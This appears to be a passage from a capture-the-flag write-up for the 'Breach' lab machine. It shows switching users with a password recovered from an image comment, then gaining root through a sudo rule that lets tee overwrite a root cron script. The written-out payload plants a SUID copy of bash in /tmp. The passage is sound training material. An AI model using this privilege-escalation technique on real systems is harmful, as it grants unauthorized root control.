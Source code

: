 ## blumbergh (Image Forensics from earlier)
1. Earlier, we found `bill.png` at `/images`
	- Inside contains a comment `coffeestains`
2. Switch user to blumbergh w/ blumbergh:coffeestains
	```
	milton@Breach:/home$ su blumbergh 
	Password: coffeestains
	blumbergh@Breach:/home$ 
	```

## Root (GTFO Bin)
1. Check for sudo access for blumbergh
	```
	blumbergh@Breach:/home$ sudo -l
	coffeestainsMatching Defaults entries for blumbergh on Breach:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User blumbergh may run the following commands on Breach:
		(root) NOPASSWD: /usr/bin/tee /usr/share/cleanup/tidyup.sh
	blumbergh@Breach:/home$ 
	```
	- `tee` has a GTFO Binary entry
2. View contents of `tidyup.sh`
	```
	blumbergh@Breach:/home$ cat /usr/share/cleanup/tidyup.sh
	#!/bin/bash
	#Hacker Evasion Script 
	#Initech Cyber Consulting, LLC
	#Peter Gibbons and Michael Bolton - 2016
	#This script is set to run every 3 minutes as an additional defense measure against hackers.
	cd /var/lib/tomcat6/webapps && find swingline -mindepth 1 -maxdepth 10 | xargs rm -rf
	```
	- Likely a cronjob running as root
3. Overwrite `tidyup.sh` w/ reverse shell
	```
	blumbergh@Breach:/home$ printf '#!/bin/bash\n\ncp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash\n' | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh;
	```
4. Wait for cronjob to execute
	```
	/tmp/rootbash -p 
	```
	![](images/Pasted%20image%2020220120061230.png)
5. Flag